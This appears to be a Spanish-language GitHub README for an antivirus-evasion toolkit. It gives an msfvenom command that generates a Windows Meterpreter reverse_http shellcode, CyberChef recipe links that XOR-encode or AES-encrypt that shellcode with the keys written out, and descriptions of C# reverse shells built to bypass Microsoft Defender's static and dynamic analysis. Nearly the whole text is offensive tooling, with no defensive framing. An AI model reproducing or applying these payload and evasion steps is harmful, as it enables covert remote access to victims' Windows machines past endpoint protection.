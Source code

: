 # Shell bitecode

    msfvenom -p windows/x64/meterpreter/reverse_http LHOST=... LPORT=... -f csharp

# Recetas:

### Xor

Encodear 2 veces

    https://gchq.github.io/CyberChef/#recipe=From_Hex('0x%20with%20comma')XOR(%7B'option':'Hex','string':'5c'%7D,'Standard',false)To_Hex('0x%20with%20comma',0)

### AES

    https://gchq.github.io/CyberChef/#recipe=From_Hex('0x%20with%20comma')AES_Encrypt(%7B'option':'Hex','string':'1f768bd57cbf021b251deb0791d8c197'%7D,%7B'option':'Hex','string':'ee7d63936ac1f286d8e4c5ca82dfa5e2'%7D,'CBC','Raw','Raw',%7B'option':'Hex','string':''%7D)To_Base64('A-Za-z0-9%2B/%3D')


# Archivos

### Csharp_revshell

Reverse shell simple creada para baypassear el análisis dinámico del Defender

### Defender_Static_bypass_shell

Reverse shell para bypassear el análisis estático del Defender.

Comprende 3 formas de uso:
1. payload en bitecode
2. Payload pasado por Xor
3. payload encriptado en Aes
